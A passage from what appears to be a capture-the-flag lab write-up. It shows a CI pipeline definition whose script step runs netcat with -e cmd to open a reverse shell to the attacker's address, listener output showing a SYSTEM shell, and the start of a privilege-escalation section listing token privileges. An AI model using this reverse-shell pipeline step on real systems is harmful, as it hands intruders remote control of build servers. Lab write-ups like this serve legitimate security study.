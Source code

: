 ### Shell

Of course I want a shell, so I'll create another pipeline:



    trigger:
    - master

    pool: 'Setup'

    steps:
    - script: c:\programdata\nc.exe -e cmd 10.10.14.24 443
      displayName: 'shellz'



The job will hang when it gets to the stage shellz:

![](/img/image-20200823065409269.png)

Over at my `nc` listener, I have a shell as system:



    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.203.
    Ncat: Connection from 10.10.10.203:54104.
    Microsoft Windows [Version 10.0.17763.1282]
    (c) 2018 Microsoft Corporation. All rights reserved.

    W:\agents\agent11\_work\13\s>whoami
    nt authority\system



## Beyond Root - RoguePotato

### Enumeration

In my first shell, the IIS user has `SeImpersonatePrivilege`:



    c:\windows\system32\inetsrv>whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                               State   
    ============================= ========================================= ========
    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeAuditPrivilege              Generate security audits                  Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege       Create global objects                     Enabled 
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
